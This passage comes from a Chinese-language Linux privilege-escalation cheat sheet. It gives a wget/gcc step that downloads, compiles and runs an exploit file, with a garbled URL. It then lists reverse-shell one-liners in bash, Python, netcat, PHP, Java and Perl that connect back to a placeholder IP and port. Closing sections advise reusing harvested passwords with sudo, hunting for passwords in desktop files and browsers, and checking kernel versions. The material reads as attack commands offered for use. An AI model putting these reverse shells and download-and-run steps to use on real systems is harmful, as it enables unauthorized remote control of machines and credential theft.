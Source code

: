 以上 4.1.1 - 4.1.16 摘抄自`https://xz.aliyun.com/t/7924#toc-16` ,侵删。

##### 4.2.17 下载提权文件

```bash
wget http:exp/:exp.c

gcc -o exp exp.c
chmod +x exp
./exp
```

##### 4.2.18 linux 反弹shell

```
bash -i >& /dev/tcp/ip/port 0>&1

python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

nc -lvvp port -e /bin/bash
nc -e /bin/bash ip port

php- 'exec("/bin/bash -i >& /dev/tcp/ip/port")'
php -r '$sock=fsockopen("ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ip/java;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()

perl -e 'use Socket;$i="ip";$p=port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

详细：
https://www.anquanke.com/post/id/87017
```

#### 4.3 基于密码的提权

在前期对目标的信息搜集可能会得到一些存储着用户密码的文件，或者是在数据库中能得到一些账号密码。极有可能管理员会复用这些密码。于是便可以直接在 shell 中使用 sudo 命令(SSH 中不可用)尝试提权至管理员权限。还有就是查看一下桌面上的文件，有时候管理员为了方便记忆，会把一些账号密码放在桌面上的文件里。还有浏览器里面可能会存密码！

#### 4.4 利用内核漏洞提权

和上边windows内核提权流程原理差不多。

先做基础的信息收集

```
# 查看内核版本
uname -a

# 查看发行版
cat /etc/issue
cat /etc/*-release
```
